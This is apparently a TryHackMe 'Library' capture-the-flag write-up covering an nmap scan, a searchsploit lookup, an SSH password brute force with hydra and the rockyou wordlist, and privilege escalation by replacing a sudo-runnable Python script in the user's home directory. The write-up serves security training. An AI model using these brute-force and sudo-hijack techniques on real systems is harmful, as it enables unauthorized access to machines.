# 🏴 TryHackMe - Library

> ⚠️ Disclaimer: This write-up does **not** include flags or exact answers, only methodology and learning process, in respect of TryHackMe rules.

---

## 🔍 Recon
>ip addreess 10.10.150.97
![10.10.150.97](images/image.png)
### Nmap Scan
```bash
nmap -sC -sV -oN Nmap/initial -p- 10.10.150.97
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-31 05:32 EDT
Nmap scan report for 10.10.150.97
Host is up (0.053s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to  Blog - Library Machine
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.17 seconds
```
Posted on June 29th 2009 by *meliodas* - 3 comments, maybe this is a hint

![alt text](images/image1.png)
Nothing there
Let's try to find some exploits, first searchsploit 
```bash 
┌──(robert㉿kali)-[~/Documents/THM_Challenges/Library]
└─$ searchsploit 'Apache 2.4.18';
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution                  | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                | php/remote/29316.py
Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escal | linux/local/46676.php
Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak                                 | linux/webapps/42745.py
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service                              | multiple/dos/26710.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow             | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)       | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)       | unix/remote/47080.c
Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory Traversal              | linux/webapps/39642.txt
Apache Tomcat < 5.5.17 - Remote Directory Listing                                | multiple/remote/2061.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal                              | unix/remote/14489.c
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)                        | multiple/remote/6229.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass | windows/webapps/42953.txt
Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)                     | linux/dos/36906.txt
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution | linux/remote/34.pl
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Let's try with this one
![alt text](images/image2.png)

**Bad path, the exploit cannot be used, let's try with brude force, maybe is working **

### Brute Force with hydra
We know that a tha user **meliodas** posted on the website
Also the robots.txt was used in the website 
![alt text](images/image3.png)

```bash 
──(robert㉿kali)-[~/Documents/THM_Challenges/Library]
└─$ hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.150.97 -t 32 -vV 
-l usernames.txt: Points to the user name
-P passwords.txt: Specifies our password dictionary file
ssh://localhost: Targets the SSH service on this machine
-t 32: Controls speed by limiting to 32 simultaneous attempts
-vV: Shows detailed progress in the terminal
```
We have the password

![alt text](images/image4.png)

Here we go, found the user flag

![alt text](images/image5.png)

### Escalate Privilegions

```bash
meliodas@ubuntu:/$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
>(ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py

```bash 
meliodas@ubuntu:~$ cat bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

After some time i found the solution, we can just remove the file and to create a new one
With the new file we will have rights to edit

```bash
meliodas@ubuntu:~$ ls -l
total 8
-rw-rw-r-- 1 meliodas meliodas 34 Aug 31 03:40 bak.py
-rw-rw-r-- 1 meliodas meliodas 33 Aug 23  2019 user.txt
```
![alt text](images/image6.png)